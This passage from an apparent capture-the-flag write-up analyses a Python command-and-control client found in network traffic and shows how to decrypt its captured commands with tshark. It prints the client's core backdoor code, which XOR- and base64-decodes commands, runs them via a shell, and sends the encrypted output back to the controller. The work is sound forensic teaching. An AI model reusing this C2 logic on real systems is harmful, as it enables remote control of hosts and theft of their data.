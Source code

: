 ```py
while True:
    received_data = s.recv(4096).decode("utf-8")
```

Next, it splits the received data at `AAAAAAAAAA`, saving the first part as `encoded_image` and the second part as `encoded_command`.

```py
encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
```

Then, it **base64** decodes the `encoded_command`, XOR decrypts it with the key `MySup3rXoRKeYForCommandandControl`, and saves it in the `decrypted_command` variable.

```py
key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
decrypted_command = decrypted_command.decode("utf-8")
```

After that, it runs the `decrypted_command` using `subprocess.check_output` and saves the output of the command in the `result` variable.

```py
result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
```

Finally, using the same key, it **XOR** encrypts the `result`, **base64** encodes it, and sends it back along with the `encoded_image`, using `AAAAAAAAAA` as the separator in between. Essentially, it performs the same operations used to decrypt the received data in reverse.

```py
encrypted_result = xor_crypt(result.encode("utf-8"), key)
encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
separator = "AAAAAAAAAA"
send = encoded_image + separator + encrypted_result_base64
s.sendall(send.encode("utf-8"))
```

## Decrypting the Commands and Outputs

Knowing how the client operates, we can assume that the traffic observed in the packet capture file for `10.0.2.64:1337` is generated by the client.

The client is clearly used to run commands from an attacker, and all the questions in the room relate to the executed commands. Therefore, it seems necessary to decrypt the traffic to answer them.

First, we can use `tshark` to extract all traffic going to or coming from `10.0.2.64:1337` from the packet capture file. We also need to hex decode the output using `xxd`, as `tshark` outputs data in hex-encoded format. We perform this in a while loop, decoding it line by line to ensure both the encrypted commands and their outputs are on separate lines in the output. Additionally, we use `grep` to skip the empty lines.

```console
$ tshark -r capture.pcap -Y "tcp.port == 1337 && ip.addr == 10.0.2.64" -T fields -e tcp.payload | while read -r line; do echo "$line" | xxd -r -p | grep . ; done > output.txt
```
{: .wrap }
